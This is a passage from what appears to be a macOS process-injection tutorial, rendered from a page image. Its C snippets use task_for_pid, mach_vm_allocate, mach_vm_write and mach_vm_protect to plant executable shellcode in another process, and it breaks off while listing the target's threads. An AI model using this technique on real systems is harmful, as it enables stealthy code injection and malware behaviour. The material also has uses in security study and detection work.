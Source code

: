 ```cpp
pid_t pid = atoi(argv[1]);
task_t task;
kern_return_t kr = task_for_pid(mach_task_self(), pid, &task);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] task_for_pid() failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] attached to pid %d\n", pid);
```

Once we have the task port, we use `mach_vm_allocate()` to reserve memory in the remote process:   

```cpp
mach_vm_address_t remote_addr = 0;
kr = mach_vm_allocate(task, &remote_addr, sizeof(shellcode), VM_FLAGS_ANYWHERE);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_allocate failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] allocated memory at 0x%llx\n", remote_addr);
```

This memory needs to be writable so we can use `mach_vm_write()` to copy in our shellcode:     

```cpp
kr = mach_vm_write(task, remote_addr, (vm_offset_t)shellcode, sizeof(shellcode));
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_write failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] wrote shellcode\n");
```

however, by default, newly allocated memory is not executable, and trying to jump into it will cause a `BUS ERROR`. So after writing, we call `mach_vm_protect()` to explicitly grant `VM_PROT_EXECUTE` permission:    

```cpp
// make memory RX
kr = mach_vm_protect(task, remote_addr, sizeof(shellcode), FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] mach_vm_protect failed: %s\n", mach_error_string(kr));
  return 1;
}
printf("[+] set memory RX\n");
```

Next, we obtain the list of threads with `task_threads()` and pick the first thread:    

```cpp
thread_act_t thread;
thread_array_t thread_list;
mach_msg_type_number_t thread_count = 0;
kr = task_threads(task, &thread_list, &thread_count);
if (kr != KERN_SUCCESS || thread_count < 1) {
  fprintf(stderr, "[-] task_threads failed: %s\n", mach_error_string(kr));
  return 1;
}
```

